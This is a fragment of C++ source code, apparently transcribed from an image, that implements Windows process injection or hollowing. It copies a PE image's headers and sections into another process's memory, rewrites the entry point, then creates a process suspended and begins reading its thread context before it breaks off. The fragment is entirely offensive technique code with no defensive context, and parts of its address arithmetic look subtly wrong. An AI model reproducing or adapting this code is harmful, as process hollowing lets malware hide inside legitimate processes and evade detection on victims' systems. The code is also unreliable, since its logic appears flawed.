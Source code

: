 ``` cpp
                {
                    CloseHandle(hProcess);
                    return false;
                }

                // Write the headers of the source image to the target process
                if (!WriteProcessMemory(hProcess, lpBaseAddress, (LPVOID)pe.modBaseAddr, inth.OptionalHeader.SizeOfHeaders, &dwRead))
                {
                    CloseHandle(hProcess);
                    return false;
                }

                // Write each section of the source image to the target process
                for (int i = 0; i < inth.FileHeader.NumberOfSections; i++)
                {
                    ReadProcessMemory(hProcess, (LPVOID)(pe.modBaseAddr + idh.e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER))), &ish, sizeof(ish), &dwRead);
                    WriteProcessMemory(hProcess, (LPVOID)((DWORD)lpBaseAddress + ish.VirtualAddress), (LPVOID)((DWORD)pe.modBaseAddr + ish.PointerToRawData), ish.SizeOfRawData, &dwRead);
                }

                // Calculate the new entry point for the source image
                DWORD dwEntrypoint = (DWORD)pe.modBaseAddr + inth.OptionalHeader.AddressOfEntryPoint;
                DWORD dwOffset = (DWORD)lpBaseAddress - inth.OptionalHeader.ImageBase + dwEntrypoint;

                // Write the new entry point to the target process
                if (!WriteProcessMemory(hProcess, (LPVOID)(lpBaseAddress + dwEntrypoint - (DWORD)pe.modBaseAddr), &dwOffset, sizeof(DWORD), &dwRead))
                {
                    CloseHandle(hProcess);
                    return false;
                }

                // Close the handle to the target process
                CloseHandle(hProcess);

                break;
            }
        } while (Process32Next(hSnapshot, &pe));
    }

    // Close the handle to the snapshot
    CloseHandle(hSnapshot);

    // Initialize the STARTUPINFO and PROCESS_INFORMATION structures
    STARTUPINFO si;
    PROCESS_INFORMATION pi;
    ZeroMemory(&si, sizeof(si));
    ZeroMemory(&pi, sizeof(pi));

    // Create the source process in a suspended state
    if (!CreateProcess(NULL, szSourceProcessName, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi))
    {
        return false;
    }

    // Get the context of the source process's primary thread
    CONTEXT ctx;
    ctx.ContextFlags = CONTEXT_FULL;
```